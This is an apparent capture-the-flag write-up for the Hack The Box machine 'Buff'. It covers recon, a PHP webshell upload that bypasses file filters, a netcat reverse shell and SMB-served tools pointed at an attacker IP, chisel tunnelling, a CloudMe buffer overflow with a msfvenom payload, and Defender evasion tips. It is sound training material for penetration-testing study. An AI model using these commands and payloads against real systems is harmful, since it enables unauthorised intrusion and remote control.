 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.198
nmap -p 7680,8080 -sC -sV -oA scans/nmap-tcpscans 10.10.10.198
```
- Ports Open:
  - 8080: Apache [httpd](HTTP) 2.4.43 (Win64) PHP/7.4.6
  - 7680: Unknown

#### Gobuster
```bash
gobuster dir -u http://10.10.10.198:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40 -o scans/gobuster-root-small-php
```
- Interesting Directories:
  - /upload.php
  - /register.php
  - /about.php
  - /admin

---

### Initial Exploit

#### Identifying the Application
- Web app identified as **Gym Management System** from **Projectworlds.in**
- Confirmed via `/README.md` and `/contact.php`

#### Searchsploit
```bash
searchsploit gym management
```
- Found: **Gym Management System 1.0 - Unauthenticated RCE** (48506.py)

#### Webshell Upload
- Upload bypass via double extension: `shell.php.png`
- Upload via `upload.php?id=yourname`
- PHP shell content starts with PNG magic bytes:
```php
\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo shell_exec($_REQUEST["cmd"]); ?>
```
- Trigger shell:
```bash
curl http://10.10.10.198:8080/upload/yourname.php?cmd=whoami
```

#### Upgrade Shell
- Serve nc64.exe over SMB using impacket’s smbserver:
```bash
smbserver.py share . -smb2support -username df -password df
```
- On Buff:
```cmd
net use \\10.10.14.20\share /u:df df
copy \\10.10.14.20\share\nc64.exe C:\programdata\nc.exe
C:\programdata\nc.exe -e cmd.exe 10.10.14.20 443
```
- Start listener:
```bash
rlwrap nc -lvnp 443
```

---

### Privilege Escalation

#### Enumeration
- Local port 8888 used by `CloudMe.exe`
- Found `CloudMe_1112.exe` in Downloads

#### Searchsploit
```bash
searchsploit cloudme
```
- Found: **CloudMe 1.11.2 - Buffer Overflow (48389.py)**

#### Setup Tunnel with Chisel
- Upload chisel client:
```cmd
copy \\10.10.14.20\share\chisel.exe C:\programdata\chisel.exe
```
- Start server on Kali:
```bash
chisel server -p 8000 --reverse
```
- Connect from Buff:
```cmd
chisel.exe client 10.10.14.20:8000 R:8888:127.0.0.1:8888
```

#### Modify Exploit Payload
- Use msfvenom to generate reverse shell:
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
- Replace payload in `48389.py`
- Run exploit:
```bash
python3 cloudme-bof.py
```
- Get admin shell at listener

---

### Flags
- **User:** `e9ff7f33************************`
- **Root:** `0e2cf4e5************************`

---

### Beyond Root

#### Gym Exploit Analysis
- Exploit uses `/upload.php` with `id` param to upload shell
- Bypasses extension filter with `.php.png`
- Bypasses MIME filter with correct Content-Type and PNG header

#### Defender Evasion
- Upload fails with `system()` due to AV
- Upload succeeds with `shell_exec()`
- Alternate bypass: inject HTML tags to evade Defender signature detection

---

### Summary
HTB: Buff is an excellent beginner-friendly box emulating an OSCP-style workflow: from web exploitation to bypassing upload filters, to privilege escalation through buffer overflow in a local service. The use of Chisel for tunneling and awareness of AV evasion techniques adds valuable depth to the learning experience.

